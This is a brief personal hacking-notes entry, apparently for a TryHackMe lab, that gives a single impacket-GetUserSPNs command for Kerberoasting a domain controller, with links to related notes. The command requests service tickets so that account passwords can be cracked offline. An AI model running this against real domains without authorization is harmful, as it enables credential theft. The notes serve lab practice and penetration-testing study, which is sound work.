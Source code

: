 # impacket kerberoast with impacket-GetUserSPNs
```bash
impacket-GetUserSPNs -dc-ip $IP -request LAB.ENTERPRISE.THM/username
```

# References
- [20221003150600](/zet/20221003150600/) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:
    #assorted

